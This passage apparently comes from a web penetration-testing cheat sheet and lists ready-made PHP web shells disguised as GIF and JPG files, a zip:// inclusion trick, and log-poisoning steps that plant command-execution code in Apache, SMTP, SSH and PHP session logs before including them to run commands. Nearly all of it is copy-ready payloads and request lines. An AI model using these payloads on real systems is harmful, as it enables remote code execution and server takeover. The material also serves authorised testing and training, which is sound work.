 ```

```

-> gif  
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > ok.gif
``` 
https://github.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/blob/main/codes/webshells/shell.gif  
-> Zip  
1-  
```
echo '<?php system($_GET["cmd"]); ?>' > ok.php && zip wshell_zip.jpg ok.php
```
2-  
```
http://ip/index.php?file=zip://./uploads/wshell_zip.jpg%23ok.php&cmd=id  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/wshell_zip.jpg 
```

#### Log Poisoning
-> apache
```
nc ip 80  
<?php system($_GET[‘cmd’]); ?>  
```  
or  
1-  
```
curl -s http://ip/index.php -A '<?php system($_GET[‘cmd’]); ?>'
```
2-  
http://ip/index.php?file=/var/log/apache2/access.log&cmd=id  
  
-> SMTP  
```
telnet ip 23
MAIL FROM: email@gmail.com
RCPT TO: <?php system($_GET[‘cmd’]); ?>  
http://ip/index.php?file=/var/mail/mail.log&cmd=id
```  
  
-> SSH  
```
ssh \'<?php system($_GET['cmd']);?>'@ip  
http://ip/index.php?file=/var/log/auth.log&cmd=id
```  

-> PHP session  
```
http://ip/index.php?file=<?php system($_GET["cmd"]);?>  
http://ip/index.php?file=/var/lib/php/sessions/sess_<your_session>&cmd=id
```
  
-> Other Paths  
```
/var/log/nginx/access.log  
/var/log/sshd.log  
/var/log/vsftpd.log  
/proc/self/fd/0-50  
```

